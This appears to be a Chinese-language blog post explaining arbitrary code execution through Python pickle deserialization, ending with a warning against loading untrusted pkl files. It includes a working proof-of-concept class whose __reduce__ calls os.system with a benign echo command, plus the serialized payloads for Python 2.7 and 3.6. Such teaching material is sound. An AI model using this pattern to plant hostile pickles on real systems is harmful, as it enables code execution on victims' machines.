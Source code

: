 ```yaml
---
layout: post
title: Python Pickle任意代码执行漏洞
category : python
tags : [python, Pickle]
stickie: true
date: 2018-02-21 00:00:00
---
```


我们通常使用pickle将python对象序列化，但是pickle在加载时有一个副作用就是它会自动加载相应模块并构造实例对象。这样就造成了一个很危险的代码，如果被黑客利用的话会造成非常严重的后果。

我首先在python2.7下测试，通过如下代码生成`payload`

```python
import pickle
import os
class gen(object):
    def __reduce__(self):
        s = """echo test > payload.txt""" 
        return os.system, (s,)        

p = gen()
payload = pickle.dumps(p)
with open('payload.pkl', 'wb') as f:
    f.write(payload)
```

输出的`payload`是这样的

```python
cnt
system
p1
(S'echo test > payload.txt'
p2
tRp3
.
```

我们通过如下代码去执行`payload`

```python
import pickle
pickle.load(open('./payload.pkl'))
```

通过执行上面这个代码，我们在相同文件夹下生成了`payload.txt`文件，并且内容是`test`。

接着我们将上面的测试放到python3.6下面，通过和python2.7下面相同的代码生成payload

```python
€cnt
system
q X   echo test > payload.txtq卶Rq.
```

我们通过如下代码去执行`payload`

```python
import pickle
pickle.load(open('./payload.pkl', 'rb'))
```

通过执行上面这个代码，我们得到了和python2.7下面相同的结果。

也就是说，只要在我们编写的代码中有打开`pkl`文件操作的代码存在的话，那么都会出现上述的问题。你可以想象到，这是多么危险的一件事情。所以这就要求我们在编写，不要随便打开不知名的`pkl`文件。